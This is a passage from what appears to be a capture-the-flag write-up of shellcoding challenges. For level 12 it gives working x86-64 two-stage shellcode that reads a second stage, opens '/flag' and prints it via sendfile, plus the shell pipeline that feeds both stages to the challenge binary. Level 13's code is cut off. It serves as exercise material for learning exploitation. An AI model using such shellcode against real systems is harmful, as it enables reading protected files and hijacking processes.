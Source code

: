 ```nasm
    nop
    .byte 7
```
# level 11 
this challenge is challenge 10 + close(stdin). our shellcode for last challenge doesn't involve a second stage. so shellcode from level 8 and level 10 works for this challenge as well.
# level 12
- every byte in this shellcode should be unique. we can use multi stage shellcode so that the first stage is very small and can made to be unique.
- stage 2 is a generic shellcode.
stage1:
```nasm
.intel_syntax noprefix
.global _start

_start:
    ; read(0, addr, 100)
    push 0x233a6010
    pop rsi

    and rdi, rax
    add dl, 0x78
    
    xor eax, eax
    syscall

```
stage2:
```nasm
.intel_syntax noprefix

.global _start

_start:
    call pwn
    .string "/flag"
    .byte 0x00
pwn:
    ; open(flag, 0)
    mov rdi, [rsp]
    mov rsi, 0
    mov rax, 2
    syscall

    ; sendfile(1, rax, 0, 0x100)
    mov rdi, 1
    mov rsi, rax
    mov rdx, 0
    mov r10, 0x100
    mov rax, 40
    syscall
```
```bash
(cat stage.1.shellcode; sleep 1; cat stage2.shellcode) | /challange/program
```
# level 13
-  only 12 bytes :(
- we can do this using chmod syscall:
```nasm
.intel_syntax noprefix
```